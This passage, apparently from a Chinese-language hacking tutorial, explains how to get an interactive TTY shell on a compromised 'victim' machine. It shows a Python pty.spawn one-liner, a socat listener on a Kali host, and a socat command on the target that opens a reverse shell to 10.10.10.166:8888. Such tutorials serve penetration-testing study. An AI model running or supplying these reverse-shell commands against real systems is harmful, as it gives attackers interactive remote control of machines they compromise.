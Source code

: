 ```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

*解决了`su`功能，但是没有补全等功能。*

![](/img/hack/tty_shell/python_tty.png)

### Socat

[Socat](http://www.dest-unreach.org/socat/doc/socat.html)类似于netcat，通过TCP进行连接，若在受害者服务器上安装了socat，就可以通过其反弹一个反向shell


在靶机上安装socat:

```bash
sudo apt-get install socat
```
> 可在`https://github.com/andrew-d/static-binaries`下载，然后改变权限`chmod +x socat`

首先在kali运行监听：

```bash
socat file:`tty`,raw,echo=0 tcp-listen:8888
```

在靶机上反弹shell:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.166:8888
```

得到一个完整的tty会话，有完整的交互功能

![](/img/hack/tty_shell/socat.png)